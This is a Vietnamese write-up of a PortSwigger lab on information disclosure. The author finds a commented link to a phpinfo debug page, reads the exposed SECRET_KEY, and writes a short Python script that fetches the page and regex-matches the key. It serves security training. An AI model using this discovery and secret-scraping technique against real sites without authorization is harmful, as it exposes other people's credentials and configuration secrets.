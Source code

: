 mục đích của chúng ta đã hoàn thành và mình đã solve được lab này

![image](https://hackmd.io/_uploads/r10rHgb2a.png)

## 2. Lab: Information disclosure on debug pag

link: https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-on-debug-page

### Đề bài

![image](https://hackmd.io/_uploads/BJbKwOZ3p.png)

### Phân tích

- Trang web chứa một trang debug tiết lộ một số thông tin quan trọng. Chúng ta cần tìm kiếm giá trị biến môi trường SECRET_KEY.

### Khai thác

- CTRL +U mình quan sát source code trang web tại trang chủ nhận thấy 1 đường dẫn đã được comment

![image](https://hackmd.io/_uploads/Hk04uu-2a.png)

`/cgi-bin/phpinfo.php`

truy cập vào và mình đến được file phpinfo.php

![image](https://hackmd.io/_uploads/HyQ_OOZnp.png)

trong đây chứa nội dung SECRET_KEY mà mình cần tìm là **qpgt33xy2xvdqhi62wnwftt5jboaz95o **

![image](https://hackmd.io/_uploads/Sktj__W2a.png)

đem submit và mình solve được lab

![image](https://hackmd.io/_uploads/BJu1K_W2p.png)

- Trong tình huống trên, kể cả trường hợp lập trình viên không comment đoạn code chứa đường dẫn tới /cgi-bin/phpinfo.php mà xóa hoàn toàn dòng code ấy đi. Thì chúng ta vẫn có thể biết tới đường dẫn này qua một số tool quét thư mục như Dirsearch, Gobuster hoặc tính năng Discover content của Burp Suite.

mình đã viết script khai thác

```python!
#!/usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0ab800da04e772ae88c448f9001e005b.web-security-academy.net'

session=requests.Session()


response = session.get(
    url +'/cgi-bin/phpinfo.php',
    verify=False,
)

pattern = r'<td class="v">\w{32}\b'
match = re.search(pattern, response.text)
```